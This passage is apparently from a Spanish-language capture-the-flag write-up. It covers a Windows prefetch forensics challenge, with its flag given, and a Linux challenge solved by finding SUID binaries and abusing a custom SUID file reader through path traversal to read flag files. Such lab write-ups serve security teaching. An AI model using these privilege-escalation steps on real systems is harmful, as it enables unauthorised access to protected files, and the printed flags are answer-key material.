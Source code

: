 ```
235:  \DEVICE\HARDDISKVOLUME1\USERS\CMALDONADO\APPDATA\ROAMING\MICROSOFT\WINDOWS\COOKIES\LOW\CMALDONADO@NEXAGE[1].TXT
263:  \DEVICE\HARDDISKVOLUME1\USERS\CMALDONADO\APPDATA\ROAMING\MICROSOFT\WINDOWS\COOKIES\LOW\CMALDONADO@MICROSOFT[2].TXT
264:  \DEVICE\HARDDISKVOLUME1\USERS\CMALDONADO\APPDATA\ROAMING\MICROSOFT\WINDOWS\COOKIES\LOW\CMALDONADO@MICROSOFT[1].TXT
265:  \DEVICE\HARDDISKVOLUME1\USERS\CMALDONADO\APPDATA\ROAMING\MICROSOFT\WINDOWS\COOKIES\LOW\CMALDONADO@C.BING[1].TXT
266:  \DEVICE\HARDDISKVOLUME1\USERS\CMALDONADO\APPDATA\ROAMING\MICROSOFT\WINDOWS\COOKIES\LOW\CMALDONADO@C.BING[2].TXT
267:  \DEVICE\HARDDISKVOLUME1\USERS\CMALDONADO\APPDATA\ROAMING\MICROSOFT\WINDOWS\COOKIES\LOW\CMALDONADO@C1.MICROSOFT[2].TXT


prefetch.py -f FTK\ IMAGER.EXE-3FF3CBAB.pf | grep CMALDONADO | grep COOKIES
    \DEVICE\HARDDISKVOLUME1\USERS\CMALDONADO\APPDATA\ROAMING\MICROSOFT\WINDOWS\COOKIES
79:   \DEVICE\HARDDISKVOLUME1\USERS\CMALDONADO\APPDATA\ROAMING\MICROSOFT\WINDOWS\COOKIES\INDEX.DAT


prefetch.py -f DLLHOST.EXE-6202E8F2.pf | grep CMALDONADO | grep COOKIES
    \DEVICE\HARDDISKVOLUME1\USERS\CMALDONADO\APPDATA\ROAMING\MICROSOFT\WINDOWS\COOKIES
    \DEVICE\HARDDISKVOLUME1\USERS\CMALDONADO\APPDATA\ROAMING\MICROSOFT\WINDOWS\COOKIES\LOW
50:   \DEVICE\HARDDISKVOLUME1\USERS\CMALDONADO\APPDATA\ROAMING\MICROSOFT\WINDOWS\COOKIES\LOW\CMALDONADO@WWW.MSN[1].TXT
297:  \DEVICE\HARDDISKVOLUME1\USERS\CMALDONADO\APPDATA\ROAMING\MICROSOFT\WINDOWS\COOKIES\LOW\CMALDONADO@MSN[1].TXT
```

Flag: **flag{dllhost.exe}**
## Linux
### Talking to the death 1 & 2 & 3 & 4 
*Submit the contents of flag3.txt from the remote machine.*
```
find / -perm /4000 2> /dev/null
/usr/local/bin/ouija
```
Veamos con strings que hace el binario
```
OUIJA 6.66 - Read files in the /root directory
Usage: ouija [FILENAME]
EXAMPLES:
	ouija file.txt
	ouija read.me
```
Bien sabiendo esto solo necesitamos encontrar los archivos con las flags:
```
find / -name *flag* 2> /dev/null
/home/luciafer/Documents/.flag2.txt
/home/luciafer/Documents/flag1.txt
/home/spookyboi/Documents/flag3.txt
/root/flag4.txt
```
Y solo nos queda leerlos usando la ouija siempre teniendo en cuenta que es desde /root
```
ouija ../home/luciafer/Documents/.flag2.txt
ouija ../home/luciafer/Documents/flag1.txt
ouija ../home/spookyboi/Documents/flag3.txt
ouija flag4.txt
```
Con eso ya tendriamos las 4 flags
